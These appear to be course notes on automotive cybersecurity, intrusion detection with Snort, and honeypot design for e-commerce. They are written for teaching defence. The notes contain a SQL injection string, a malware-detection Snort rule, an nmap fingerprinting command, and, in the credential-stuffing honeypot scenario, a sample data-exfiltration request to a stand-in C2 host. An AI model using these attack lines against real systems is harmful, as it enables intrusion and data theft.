


# Firewalls & Automotive Cybersecurity

## Legal & Regulatory Frameworks

### ISO/SAE 21434 (2021)
- Title: *Road vehicles – Cybersecurity Engineering*.  
- Purpose: Defines **engineering practices** for cybersecurity in vehicles across the entire lifecycle (design → production → operation → decommissioning).  
- Core requirement: every manufacturer must have a **defined incident response process** with detection, reporting, analysis, development, and deployment of countermeasures.  
- Analogy: It is to cars what **ISO 27001** is to companies (security engineering standard).  

### UNECE R155 (2021)
- UN Regulation for **vehicle cybersecurity management systems (CSMS)**.  
- Mandatory for **vehicle type approval** in many markets (EU, Japan, Korea).  
- Requirements for OEMs (Original Equipment Manufacturers, e.g., BMW, Toyota, VW):  
  - Establish a **Cybersecurity Management System (CSMS)**.  
  - Prove that this CSMS is effective before new vehicle types can be approved.  
  - Continuously monitor for threats and update vehicles accordingly.  
- Key idea: manufacturers cannot treat cybersecurity as a one-time feature; it must be **ongoing and systematic**.

---

## IDS (Intrusion Detection System) in Vehicles

### What is an IDS?
- In IT: An IDS monitors network traffic or host activities to detect attacks.  
- In cars: An **automotive IDS** monitors messages between ECUs (Electronic Control Units) and external traffic to detect suspicious activity.  

### ECUs (Electronic Control Units)
- Small computers inside the car (can be >100 in modern vehicles).  
- Control specific subsystems: brakes, airbags, engine, infotainment, etc.  
- Communicate with each other over in-vehicle networks.  

### CAN (Controller Area Network)
- A communication bus protocol used in cars.  
- OSI mapping: roughly Layer 2 (data link), sometimes referred to as a fieldbus protocol.  
- Purpose: allows ECUs to send and receive short broadcast messages quickly.  
- Example: when you press the brake pedal, the brake ECU sends a CAN message that other ECUs (ABS, stability control, etc.) must react to.  
- Weakness: Designed in the 1980s with **no built-in security** (no encryption, no authentication). This makes it a target for cyberattacks.  

### How IDS works in automotive context
- IDS collects messages (e.g., CAN, Ethernet, LIN, FlexRay) and checks for:  
  - **Known attack patterns (signatures)**: replay of CAN messages, abnormal flooding.  
  - **Anomalies**: message frequencies or values that don’t match expected behavior.  
- Only “qualified” events (those likely to be actual threats) are recorded → reduces noise.

---

## SOC (Security Operations Center)

### What is a SOC?
- In IT: a SOC is a central team that monitors, analyzes, and responds to security incidents.  
- In automotive: the SOC is located at the **vehicle manufacturer (OEM)** backend.  
- It receives reports from vehicles in the field, analyzes them, and coordinates countermeasures.  

### Why SOC is needed
- A single car might detect an anomaly, but only by **aggregating data from thousands of cars** can you see if it’s a widespread attack.  
- SOC enables fleet-wide visibility → e.g., “200 cars in Europe reported the same suspicious message pattern within 1 hour.”  

---

## The 5-Step Incident Response Lifecycle (ISO/SAE 21434)

### 1. Detect
- Onboard IDS in each vehicle records suspicious or malicious activities.  
- Examples: unauthorized CAN messages, abnormal data rates, attempts to reprogram an ECU.  
- Important: IDS does not stop the attack → it only detects.  

### 2. Report
- Vehicle sends the detected event data to the SOC backend.  
- This avoids overloading the SOC with raw logs by sending only **qualified events**.  
- Communication usually happens over secure mobile data connection (LTE/5G).  

### 3. Analyze
- SOC analyzes the reported data:  
  - **Single-vehicle analysis**: was this an isolated anomaly?  
  - **Fleet analysis**: are many vehicles seeing the same attack → large-scale campaign?  
- SOC uses correlation and forensic tools to identify patterns.  

### 4. Develop
- Based on SOC findings, security engineers design **countermeasures**:  
  - New IDS detection rules (signatures, anomaly thresholds).  
  - ECU firmware updates to fix vulnerabilities.  
  - Improved anomaly detection models.  
- These countermeasures are tested before deployment.  

### 5. Deploy
- Countermeasures are pushed back to vehicles.  
- Delivery is often done via **OTA (Over-the-Air) software updates**, similar to how Tesla updates cars.  
- Updates mitigate threats quickly without requiring physical servicing.  

### Continuous Cycle
- The process is **never-ending**: every new attack → detection → reporting → analysis → countermeasure → deployment → back to detection.  

---

## Connection to Firewalls (Lecture Context)

- **Firewall**
  - Controls which traffic is allowed or denied (Layer 3/4, sometimes Layer 7).  
  - Example in IT: block all inbound except HTTPS on port 443.  
  - In automotive: firewall-like logic may control which external messages reach the car’s internal network.  

- **IDS**
  - Detects suspicious traffic **after it passes the firewall**.  
  - In cars: IDS checks CAN/Ethernet messages for abnormalities.  
  - Example: detecting 1000 brake messages per second (DoS on CAN bus).  

- **SOC Lifecycle**
  - Goes beyond prevention/detection.  
  - Defines how the manufacturer **responds and recovers** when attacks occur.  
  - Ensures compliance with ISO/SAE 21434 and UNECE R155.  

---

## OSI Layer Mapping

- **Firewall**:  
  - Layer 3 (IP filtering)  
  - Layer 4 (TCP/UDP port filtering)  
  - Layer 7 (application firewall, deep packet inspection)  

- **Automotive IDS**:  
  - Layer 2 (Ethernet frames in modern cars)  
  - Layer 7 (application-level protocols like CAN, SOME/IP, DoIP)  

- **SOC**:  
  - Not part of OSI. Operates at the **organizational/operational layer**.  
  - Aggregates data from vehicles, applies analytics, coordinates response.  


# Intrusion Detection Systems (IDS) & Snort

## Why IDS? Picture This Scenario

You're running a company network. You've installed a **firewall** - it's like having a security guard at the front door checking IDs.

**The problem**: 
- What if someone **already snuck inside** through a delivery entrance?
- What if they're wearing a valid employee badge (legitimate traffic) but carrying weapons (exploit code)?
- What if they found an open window in an otherwise secured building (vulnerable service on an allowed port)?

The firewall guard at the front door won't catch any of this.

**Enter IDS**: Think of it as security cameras + motion sensors **throughout** the building, watching everything that happens inside, not just at the entrance.

---

## Two Types of Watchers

### Host-based IDS (HIDS) - The Room Monitor

Imagine a security camera in **one specific room** (one computer):
- Watches who touches the filing cabinets (system files)
- Monitors the logbook on the desk (log files)
- Notices if someone rearranges the furniture (configuration changes)

**Real tools**:
- **Tripwire**: Takes a fingerprint of every file, then checks "has anyone touched this?"
- **Logwatch**: Reads through logbooks looking for suspicious entries

### Network-based IDS (NIDS) - The Hallway Monitor

Imagine standing in a hallway with a **clipboard**, watching everyone who walks by:
- You see their face (IP address)
- You see what they're carrying (packet payload)
- You note where they came from and where they're going (source/destination)

**Real tools**: Snort, Zeek, Suricata - they "stand" on the network wire and watch everything flowing past.

---

## How Does an IDS Recognize Danger?

### Method 1: The "Wanted Poster" Approach (Signature-based)

You have a **book of mugshots** - known criminals and what they look like.

Someone walks by matching a wanted poster? **ALERT!**

**Example**: You know attackers use the phrase `' OR 1=1` to break into databases. Your IDS looks for that exact phrase.

**The catch**: If a new criminal (zero-day attack) shows up who's not in your book? You miss them completely.

### Method 2: The "That's Weird" Approach (Anomaly-based)

Instead of mugshots, you **learn what normal looks like**:
- "Usually 20 people walk through this hallway each hour"
- "Bob from accounting always arrives at 9 AM"
- "Database queries are usually 50 bytes long"

When something breaks the pattern - 200 people in an hour, Bob at 3 AM, or a 10,000-byte query - **ALERT!**

**The catch**: Sometimes weird = legitimate. Maybe there's a company party (200 people), Bob forgot his wallet (came back at 3 AM), or someone ran a legitimate large report (10,000 bytes). These are **false alarms** (false positives) - the biggest headache in IDS management.

---

## Snort's Assembly Line: How a Packet Gets Inspected

Think of Snort like a **factory assembly line** for suspicious package inspection:

```
Incoming Package (Network Packet)
        ↓
[Station 1: Packet Decoder]
"What kind of package? Who's it from? Where's it going?"
Opens the box, reads the shipping label
        ↓
[Station 2: Preprocessor]
"Is this box taped together from multiple pieces?"
Reassembles fragmented packages
"Was this box already opened before?" (stateful analysis)
        ↓
[Station 3: Detection Engine]
"Does this match any red flags in our rulebook?"
Compares contents against known danger patterns
        ↓
[Station 4: Alert/Log]
"FOUND SOMETHING! Write it down and sound the alarm!"
```

### Station Details

**Packet Decoder**: The shipping clerk
- Opens the envelope
- Reads: TCP or UDP? IP addresses? Port numbers?
- Creates a **flow** label: "This is Bob talking to Server 5"

**Preprocessor**: The quality control team
- `frag2`: "This package was split into 3 pieces during shipping - let me put them back together"
- Portscan detector: "Someone just knocked on 1,000 doors in 10 seconds - that's suspicious"
- ARP spoof detector: "Wait, two people claim to be 'Bob' - identity theft!"

**Detection Engine**: The pattern matcher
- Has a rulebook with thousands of "if you see THIS, it's bad" entries
- Flips through the rulebook at lightning speed checking each packet

---

## Writing a Snort Rule: Recipe Format

Think of a Snort rule like a **recipe with two parts**: the ingredient list (rule head) and the cooking instructions (rule body).

### The Ingredient List (Rule Head)

```
alert tcp any any -> any any
```

Translation: "Watch for TCP traffic from anywhere to anywhere"

**The ingredients**:
- `alert` = What to do (sound alarm, just log it, or ignore it)
- `tcp` = What type of traffic (TCP, UDP, ICMP)
- First `any any` = Source (any IP, any port)
- `->` = Direction (one-way arrow)
- Second `any any` = Destination (any IP, any port)

### The Cooking Instructions (Rule Body)

```
(msg:"DANGER_DETECTED"; 
 dsize:6; 
 flow:established,to_server;
 content:"|18 17 e9 e9 e9 e9|";
 sid:1; rev:1;)
```

**Breaking it down**:
- `msg` = What to write on the alarm label
- `dsize:6` = "Only look if the package is exactly 6 bytes"
- `flow:established,to_server` = "Only if this is an ongoing conversation going TO a server"
- `content` = "The exact hex bytes I'm looking for" (like a fingerprint)
- `sid` = Rule ID number (like a recipe number)
- `rev` = Version number (recipe revision)

### Real Example: North Korean Malware Detection

```snort
alert tcp any any -> any any 
  (msg:"DPRK_HIDDEN_COBRA_DDoS_HANDSHAKE_SUCCESS";
   dsize:6; 
   flow:established,to_server;
   content:"|18 17 e9 e9 e9 e9|";
   sid:1; rev:1;)
```

**In plain English**: "If you see a TCP conversation where someone sends exactly 6 bytes to a server, and those bytes are `18 17 e9 e9 e9 e9`, that's the North Korean HIDDEN COBRA malware saying hello to its command center - sound the alarm!"

---

## Priority Labels: What's Most Urgent?

Imagine your IDS is a **fire department radio** receiving calls. Not every call is a five-alarm fire:

### 🚨 Drop Everything - High Priority

- `attempted-admin`: "Someone's trying to become the boss!"
- `shellcode-detect`: "Live explosive code detected!"
- `trojan-activity`: "A spy is transmitting data to the enemy!"
- `web-application-attack`: "Someone's breaking into the website!"

### ⚠️ Important but Not Immediate - Medium Priority

- `attempted-dos`: "Someone's trying to clog the pipes"
- `attempted-recon`: "Someone's casing the joint"
- `default-login-attempt`: "Someone tried username: admin, password: admin"

**Why this matters**: Your security team gets hundreds of alerts per day. These labels help them know which fire to put out first.

---

## The Speed Challenge: Finding Needles in Haystacks

Imagine you have **10,000 different "wanted posters"** (Snort rules) and you need to check **millions of people** (packets) walking by **every second**.

You can't check each person against all 10,000 posters one by one - too slow!

### The Smart Solution: Aho-Corasick Algorithm

**Old way (Boyer-Moore)**: 
Pick up poster #1, check person, put it down. Pick up poster #2, check person, put it down... (exhausting!)

**New way (Aho-Corasick)**:
Build a **decision tree** of all posters at once:
- "Does the person have a tattoo?" → Yes → "Is it on the left arm?" → Yes → "Is it a dragon?" → MATCH!
- You check all 10,000 patterns in **one pass** through the crowd

This is why modern IDS can keep up with high-speed networks - clever data structures make the impossible possible.

---

## Snort's Evolution: Community, Company, and Cisco

**The Origin Story**:
- 1998: Martin Roesch creates Snort as a free tool
- It spreads like wildfire in the security community
- Roesch starts company "Sourcefire" to support it

**The Corporate Chapter**:
- 2013: Cisco buys Sourcefire
- Snort now has corporate backing and resources

**The Rule Marketplace**:
Think of rules like **virus definitions for antivirus**:

| Rule Set | Price | Freshness | Who Gets It |
|----------|-------|-----------|-------------|
| **Community Rules** | Free | Made by volunteers | Everyone |
| **Talos Rules** | Free with registration | 30-day-old updates | Anyone who signs up |
| **Subscription Rules** | $$$ | Fresh off the press | Paying customers |

**Snort 3** (2021): Complete engine rebuild
- **Multithreading**: Like hiring more inspectors instead of one working faster
- **Modular plugins**: Like LEGO blocks you can swap out
- **Full IPv6**: Ready for modern internet addressing

---

## Real Research: What People Are Actually Building

### IPv6 Attack Detection (University of Potsdam)
**The problem**: IPv6 has new types of attacks Snort doesn't know about
**The solution**: Custom plugins that understand IPv6's "Neighbor Discovery" protocol
**Analogy**: Teaching the security guard about new types of fake IDs

### Comparing Guard Dogs (Snort vs Suricata vs Zeek)
**The question**: Which IDS catches more? Which is faster? Which uses less memory?
**Real-world testing**: IoT devices, IPv6 networks, high-speed networks
**Finding**: Each has strengths - it's like comparing bloodhounds, German shepherds, and border collies

### Neural Networks vs Traditional Rules
**The idea**: Instead of writing rules by hand, can we **train** the IDS to recognize attacks?
**Like**: Teaching a dog to detect bombs by smell vs. giving it a checklist
**Current research**: Combining both approaches - rules for known attacks, AI for weird new stuff

---

## Legal Landmines: When Security Meets Privacy

### The Privacy Problem

Your IDS is recording conversations happening on the network - like wiretapping your own building.

**What gets recorded**:
- Who talked to whom (IP addresses)
- When they talked (timestamps)
- Sometimes what they said (payload inspection)

**In Germany/EU**:
You **cannot legally deploy IDS** in a company network unless:
- ✅ Every employee signed a consent form, OR
- ✅ The works council approved it in writing (*Betriebsvereinbarung*)

**The false positive danger**: Your IDS might flag an innocent employee's private medical research as "suspicious database access" and log it - now that private health info is in security logs.

### The Evidence Problem

You caught an attacker! Your IDS logs prove it! You take them to court...

**Judge asks**: "How do I know you didn't make up these logs?"

**Without cryptographic signatures**: The logs are just text files you could have edited.

**Better approach**: 
- Cryptographically sign each log entry as it's created
- Store logs on write-once media
- Have a chain of custody like physical evidence

**Reality**: Many IDS deployments skip this, making their logs inadmissible as evidence.

---

## The Big Picture: What You Need to Remember

### Core Concepts (Touch These)

**Firewalls vs IDS**: 
- Firewall = Door guard checking IDs
- IDS = Security cameras watching behavior inside

**Snort Pipeline**: 
Like a factory assembly line - Decode → Normalize → Match → Alert

**Rules**: 
Two parts - WHERE to look (head) + WHAT to look for (body)

**Classtypes**: 
Priority triage for overwhelmed security teams

**Pattern Matching**: 
Aho-Corasick = checking 10,000 patterns in one pass (magic!)

**Snort 3**: 
Modern rewrite - faster, modular, IPv6-ready

**Legal Reality**: 
Privacy laws + evidence admissibility = must be considered BEFORE deployment

---

## Hands-On Next Steps

**Want to actually touch Snort?**

1. Download Snort Community Edition (free)
2. Capture your own network traffic with tcpdump
3. Run Snort on your capture: `snort -c snort.conf -r mycapture.pcap`
4. Write a rule to detect something specific YOU did
5. Watch it trigger - that's the "aha!" moment

**Start simple**: 
Write a rule that detects when you visit google.com - just look for the string "google" in HTTP traffic. Then build from there.

The best way to understand IDS is to **catch yourself** with your own rules.

# Honeypots: The Art of the Trap

## What's a Honeypot? The Bear Trap Analogy

Imagine you're protecting a warehouse full of valuable goods. You could:
- Build bigger walls (firewalls)
- Install cameras (IDS)
- Hire more guards (monitoring)

**Or... you could set a trap.**

A **honeypot** is a fake warehouse you build **next to** the real one. It looks identical from the outside:
- Same doors
- Same windows  
- Same "valuable goods" signs

But inside? Nothing real. Just **bait** and **cameras everywhere**.

When thieves break in, you don't stop them - you **watch them**:
- What tools do they use?
- What are they looking for?
- Where did they come from?
- What do they do after they think they've succeeded?

**The key insight**: This fake warehouse has ZERO production value. Its only job is to get broken into.

---

## Real vs Fake: What Does "Simulation" Actually Mean?

### The Real Thing (Dangerous)

You set up an **actual Apache web server** with **real MySQL database**:
- Attackers can run real exploits
- Their malware actually executes
- They can install backdoors that persist
- They might pivot to your real systems

**Like**: Leaving a real loaded gun on the table as bait

### The Simulation (Safer)

You write a **script** that **pretends** to be Apache:
- It responds to HTTP requests with realistic headers
- It serves fake product pages
- When attacked, it logs everything but **executes nothing**

**Like**: Leaving a realistic-looking toy gun on the table - looks real, but can't fire

### The Emulated Stack (Convincing Fake)

The challenge: Modern attackers use **fingerprinting tools** (like Nmap) that can detect fakes:
- "This server claims to be Linux, but the TCP packet timing is wrong"
- "This SSH banner says OpenSSH, but the version negotiation is off"
- "These HTTP headers don't match real Apache"

**Emulated stack = making the toy gun feel weighted, metal, temperature-correct**

You replicate:
- TCP/IP timing quirks of a real Linux kernel
- Exact sequence number patterns
- TLS handshake behaviors
- OS-specific network "fingerprint"

**Result**: Even sophisticated scanners can't tell it's fake

---

## Two Types of Traps: Cardboard Box vs Steel Cage

### Low-Interaction Honeypot: The Cardboard Box Trap

**What it is**: Lightweight scripts that mimic services

**Picture this**:
- You paint a cardboard box to look like a safe
- Attacker "breaks in" (sends malicious request)
- Box logs their tools and techniques
- But there's no actual safe mechanism inside - just recording equipment

**In reality**:
- Fake SSH that shows a login prompt but doesn't actually authenticate
- Fake HTTP server that returns product pages but has no database
- Fake FTP that pretends to store files but just logs the filenames

**Pros** (Why use cardboard?):
- ✅ **Cheap**: Run 10,000 fake services on one server
- ✅ **Safe**: Attacker literally cannot execute code - there's nothing to execute
- ✅ **Scalable**: Monitor millions of IP addresses simultaneously
- ✅ **Fast to deploy**: Copy script, start listening

**Cons** (Why cardboard fails):
- ❌ **Obvious to experts**: Experienced attackers probe deeper and discover the fake
- ❌ **Shallow intelligence**: You see them knock, but not what they'd do inside
- ❌ **Limited forensics**: No malware samples, no exploit chains, no post-breach behavior

**What you actually capture**:
- IP addresses and timestamps
- Request headers and payloads
- Port scanning patterns
- Login attempts and credentials tried
- HTTP paths accessed

### High-Interaction Honeypot: The Steel Cage Trap

**What it is**: A complete, real system (usually a VM) running actual services

**Picture this**:
- You build a **real safe** inside a **reinforced observation room**
- Attacker breaks in with real tools
- Safe actually opens (they succeed!)
- But walls are one-way mirrors - you watch everything
- Room is isolated - they can't leave to attack other areas

**In reality**:
- Real Ubuntu VM with real Apache, real MySQL
- Attacker's exploits actually work
- Their malware actually executes (in the VM)
- They can upload files, run commands, establish persistence
- You capture **everything** - every keystroke, every file, every network connection

**Pros** (Why steel cage?):
- ✅ **Completely realistic**: Indistinguishable from production
- ✅ **Full attack chain**: See the entire story from initial exploit to data exfiltration
- ✅ **Malware collection**: Capture actual malware binaries and C2 communications
- ✅ **Forensic gold mine**: System calls, memory dumps, process trees, file changes

**Cons** (Why not always steel?):
- ❌ **Expensive**: Each VM needs CPU, RAM, storage
- ❌ **Risky**: If containment fails, attacker could pivot to real systems
- ❌ **High maintenance**: Need to patch, update, reset compromised VMs
- ❌ **Doesn't scale**: Can't run thousands of high-interaction honeypots

**What you actually capture**:
- Everything from low-interaction, PLUS:
- Full system call traces (`execve`, `open`, `connect`)
- Process snapshots (what's running, parent-child relationships)
- Complete network packet captures
- Filesystem before/after comparisons
- Memory dumps of malicious processes
- Shell command history and scripts executed

### The Hybrid: Smart Triage

**The clever approach**: Use both together

```
1. Deploy 10,000 cardboard boxes (low-interaction) everywhere
2. Watch for interesting behavior
3. When someone looks professional → secretly swap the cardboard for a steel cage
4. Now watch them with full detail
```

**Real implementation**:
- Initial connection hits low-interaction proxy
- If behavior matches "sophisticated attacker" pattern → silently escalate
- Route their session to high-interaction VM
- They never know they got upgraded to the deluxe trap

**Benefits**: 
- Broad coverage (10,000 sensors)
- Deep analysis (focused resources on interesting targets)
- Cost-effective (expensive VMs only for worthy subjects)

---

## Attacker's View: What They Actually See

### Probing a Low-Interaction Honeypot

**Attacker runs**: `nmap -sS -O -p80,443 honeypot.example.com`

**What Nmap reports**:
```
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
OS: Linux 3.x - 4.x (maybe?)
```

**But the subtle tells**:
- TCP window size doesn't quite match real Linux
- Timestamp options are close but not exact
- HTTP headers are 95% correct but missing obscure fields
- Response timing is too consistent (no variance from real load)

**Experienced attacker thinks**: "Hmm, something's off here..."

### Probing a High-Interaction Honeypot

**Attacker runs**: Same `nmap -sS -O -p80,443 honeypot.example.com`

**What Nmap reports**:
```
PORT    STATE SERVICE VERSION
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
443/tcp open  https   Apache httpd 2.4.41 ((Ubuntu))
OS: Linux 5.4.0-42-generic (Ubuntu 20.04)
```

**Everything checks out**:
- Perfect TCP/IP fingerprint (because it IS real Linux)
- Accurate Apache version (because it IS real Apache)
- Correct TLS certificate and cipher suites
- Realistic response times with natural variance

**Attacker thinks**: "Looks legit. Let's exploit it."

---

## Real-World E-Commerce Use Cases: Protecting Amazon-Scale Operations

Think of a massive e-commerce platform like Amazon:
- Millions of products
- Millions of users
- Seller portals
- Payment systems
- Admin consoles
- APIs everywhere

**High-value targets for attackers**:
- Credit card tokens
- User credentials  
- Pricing data
- Inventory systems
- Seller accounts
- API keys

Let's walk through **concrete traps** you'd set...

---

## Use Case A: The Decoy Product Catalog (Price Scraper Trap)

### The Problem You're Solving

**Competitors** and **price comparison bots** constantly scrape your site:
- They crawl 10,000 products/hour
- They steal pricing data
- They monitor inventory levels
- They reverse-engineer your recommendation algorithms

You want to:
1. Detect these bots
2. Understand their techniques
3. Feed them false information
4. Block them from real data

### The Trap Design (Low-Interaction)

**Build fake product pages**:
```
Real site:           amazon.com/dp/B08L5WFXM9
Honeypot:            amazon.com/dp/H0N3Y7R4P1  ← fake product ID
```

**What the fake page contains**:
- Realistic product HTML (title, images, price, reviews)
- But: product doesn't exist
- Prices are slightly wrong (honeytokens)
- Special product IDs only seen by bots

**Hidden traps**:
- Invisible links in HTML (hidden by CSS, only bots follow them)
- Fake API endpoints that return JSON but aren't in docs
- Fake sitemaps with honey product IDs

### What the Bot Sees

**Bot scrapes**: `GET /dp/H0N3Y7R4P1`

**Receives**:
```html
<div class="product">
  <h1>Wireless Headphones Pro Max</h1>
  <span class="price">$149.99</span>
  <div class="rating">4.5 stars</div>
</div>
```

Looks completely legitimate!

**Bot extracts**: Product name, price, rating → stores in competitor database

### What You Capture

**Every request logs**:
- IP address: `45.67.89.123`
- User-Agent: `Mozilla/5.0 (Selenium/Chrome)` ← Bot fingerprint!
- Request pattern: Sequential product IDs (1001, 1002, 1003...) ← Automated!
- Missing headers: No real browser fingerprints (canvas, WebGL)
- Timing: Exactly 100ms between requests ← Not human!

**Analysis reveals**:
- Bot infrastructure: Runs from AWS IP range
- Bot framework: Selenium WebDriver
- Scraping pattern: Alphabetical by category
- Proxy rotation: Changes IP every 50 requests

### What You Do Next

**Immediate actions**:
1. Block IP range `45.67.0.0/16` at WAF
2. Rate-limit requests with Selenium user-agents
3. Require CAPTCHA for sequential access patterns

**Strategic actions**:
- Feed fake prices to scraper (pricing intelligence)
- Detect when competitor prices match your fake prices (confirms they're using your data)
- Create "honeypot only" products to track data leakage

---

## Use Case B: The Fake Login Portal (Credential Stuffing Trap)

### The Problem You're Solving

**Attackers have stolen credentials** from other sites (LinkedIn breach, Facebook leak, etc.)

They run **credential stuffing attacks**:
- Try `user@email.com:Password123` on YOUR site
- Try millions of username/password combinations
- Automated (bots do this)
- If one works → account takeover

You want to:
1. Detect these attacks early
2. Capture which credential lists they're using
3. Identify bot infrastructure
4. Protect real users before their accounts are compromised

### The Trap Design (Hybrid: Low → High)

**Phase 1: Create honey accounts** (fake users)

```
Real user:           john.doe@gmail.com
Honey user:          sarah.mitchell@protonmail.com  ← Fake but realistic
```

**Honey account characteristics**:
- Realistic registration date (6 months ago)
- Fake order history (3 past purchases)
- Stored payment method (masked fake card: •••• 1234)
- Realistic email address (not obviously fake)

**Phase 2: Deploy fake login portal** (low-interaction)

```
Real login:          amazon.com/login
Honeypot login:      accounts-verify.amazon-cdn.com/login  ← Similar but fake
```

**How attacker finds it**:
- You leak this URL in fake phishing email databases
- Attackers scraping for login endpoints discover it
- You advertise it in honeytokens spread on paste sites

### What the Attacker Sees (Low-Interaction Phase)

**Attacker's bot tries**:
```
POST /login
{ "email": "sarah.mitchell@protonmail.com", "password": "Summer2023!" }
```

**Your honeypot responds**:
```json
{ "success": false, "error": "Invalid credentials" }
```

Bot tries another password:
```
POST /login
{ "email": "sarah.mitchell@protonmail.com", "password": "P@ssw0rd!" }
```

**Your honeypot responds**:
```json
{ "success": true, "session_token": "honey-trap-abc123" }
```

**Success!** The attacker thinks they've compromised an account.

### What You Capture (Low-Interaction Phase)

**Every login attempt logs**:
- All usernames tried (reveals credential list being used)
- All passwords tried (password patterns, common choices)
- Source IP and infrastructure
- Rate of attempts (500/minute = automated)
- User-agent fingerprints

**Key insight**: The password `P@ssw0rd!` worked for honey account
- This means: That credential pair came from a breach
- Action: Force password reset for ALL users with password `P@ssw0rd!`

### Escalation to High-Interaction

**When attacker successfully logs into honey account → silently escalate**

**Attacker now sees** (High-interaction VM):
- Full account dashboard
- Fake order history: "You bought headphones 3 months ago"
- Stored payment method: "Visa ••••1234"
- "My Account" settings with editable fields
- Fake admin API link (bait)

### What You Capture (High-Interaction Phase)

**Now you record EVERYTHING**:

**Attacker action**: Changes email address
```
POST /account/update
{ "email": "attacker@evil.com" }
```
✅ Captured: Their email address

**Attacker action**: Tries to order something
```
POST /checkout/complete
{ "product_id": 12345, "use_stored_payment": true }
```
✅ Captured: They tried to make fraudulent purchase

**Attacker action**: Explores admin API
```
GET /api/admin/users/list?limit=1000
```
✅ Captured: They're looking for privilege escalation

**Attacker action**: Attempts to exfiltrate data
```
POST https://attacker-c2.com/exfil
{ "stolen_data": { ... } }
```
✅ Captured: Their C2 server address `attacker-c2.com`

### What You Do Next

**Immediate**:
- Block C2 domain `attacker-c2.com` on firewall
- Block attacker's email `attacker@evil.com` from registration
- Force password reset for any user with `P@ssw0rd!`

**Strategic**:
- Identify credential breach source (which leak was this from?)
- Alert real users: "Your password was found in a data breach"
- Update WAF rules to detect this attack pattern
- Share C2 indicators with threat intelligence community

---

## Use Case C: The Fake Seller Portal (Supply Chain Attack Trap)

### The Problem You're Solving

Your platform has **thousands of third-party sellers**:
- They upload inventory via CSV
- They manage pricing
- They configure webhooks for order notifications
- They have API keys

**Attack scenarios**:
- Compromised seller account → inject malicious products
- CSV upload exploit → remote code execution
- SSRF attack → access internal APIs
- API key theft → mass order fraud

You want to:
1. Detect attacks on seller infrastructure
2. Capture exploits before they hit production
3. Collect malware samples
4. Understand supply chain threats

